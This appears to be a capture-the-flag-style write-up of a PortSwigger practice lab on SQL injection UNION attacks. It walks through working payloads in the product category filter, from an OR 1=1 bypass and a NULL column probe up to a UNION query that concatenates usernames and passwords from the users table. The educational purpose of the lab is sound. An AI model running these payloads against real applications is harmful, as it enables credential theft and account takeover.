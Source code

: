 
# SQL injection UNION attack, retrieving multiple values in a single column

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Hint: You can find some useful payloads on our SQL injection cheat sheet.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/union-attacks

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


We see there is 1 value displayed in the table, the name of the product:



![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/1.png)


We find these payload are valid to display the 4 items in Gifts and the second all the items:

```
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
```

Also, that there are 2 columns returned by the query and we can do a UNION attack with:

```
/filter?category=Gifts'+union+all+select+NULL,NULL--
```



![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/2.png)

We can print strings using the second column in the attack and concatenate strings using CONCAT:

```
/filter?category=Gifts'+union+all+select+NULL,CONCAT('foo','bar')--
```



![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/3.png)


We can get content from both columns using SELECT CONCAT(username,':',password) from users:

```
/filter?category=Gifts'+union+all+select+NULL,CONCAT(username,':',password)+from+users--
```



![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/4.png)
